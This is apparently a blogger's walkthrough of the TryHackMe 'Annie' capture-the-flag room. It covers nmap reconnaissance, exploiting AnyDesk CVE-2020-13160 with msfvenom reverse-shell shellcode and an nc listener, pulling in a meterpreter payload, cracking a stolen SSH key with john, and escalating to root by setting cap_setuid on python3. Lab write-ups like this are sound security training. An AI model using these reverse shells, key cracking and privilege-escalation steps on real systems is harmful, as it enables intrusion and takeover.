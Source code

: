 ```yaml
---

title: Box - Annie
published: true
---
```


TryHackMe CTF Box - Remote access comes in different flavors.

[https://tryhackme.com/room/annie](https://tryhackme.com/room/annie)

![0xskar](/assets/annie01.jpg)

* * *

## Recon - Research - Exploit 

##   Nmap Scans

- ``sudo nmap -Pn -sS -p- 10.10.7.95 -vvv``
- ``sudo nmap -sC -sV -O 10.10.7.95 -p22,7070,38491,42043``

- We can see ssh and "realserver" are open

* * * 

## Anydesk Client

```shell
PORT     STATE SERVICE         VERSION
7070/tcp open  ssl/realserver?
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=AnyDesk Client
```

- [CVE-2020-13160](https://www.exploit-db.com/exploits/49613)

1. ``msfvenom -p linux/x64/shell_reverse_tcp LHOST=ip LPORT=7777 -b "\x00\x25\x26" -f python -v shellcode``
2. inset into payload and setup ``nc -nvlp 7777``

![0xskar](/assets/annie02.png)

* * * 

## PrivESC

1. upgrade shell ``python3 -c 'import pty; pty.spawn("/bin/bash")'``
2. setup more stable staged meterpreter shell and wget it over ``msfvenom -p linux/x64/meterpreter/reverse_tcp  LHOST=10.x.x.x LPORT=5555 -f elf > meterpreter.elf``
3. ``msfconsole use exploit/multi/handler`` & ``set payload linux/x64/meterpreter/reverse_tcp``
4. annie has id_rsa keys available in her home lets download in metasploit and then feed them to john
5. ``ssh2john id_rsa > anniejohn``
6. ``john anniejohn --wordlist=/usr/share/seclists/Passwords/rockyou.txt``

![annie123](/assets/annie03.png)

Now that we have annie ssh to make things easiar we can login there and continue with privesc

1. linpeas.sh
2. https://nxnjz.net/2018/08/an-interesting-privilege-escalation-vector-getcap/

```shell
-rwsr-xr-x 1 root root 10K Nov 16  2017 /sbin/setcap (Unknown SUID binary)
```

setcap allows us to set special permissions on files allowing us to privesc. Is we set cap_setuid+ep into a binary it can lead to privilege escalation. See the process in below pic.

![0xskar](/assets/annie04.png)

1. We check permissions on python3 as we can use that to spawn a root shell with SUID
2. It doesnt have the special permission so we can copy it from its directory to annies and setcap cap_setuid+ep and spawn a shell.

* * * 

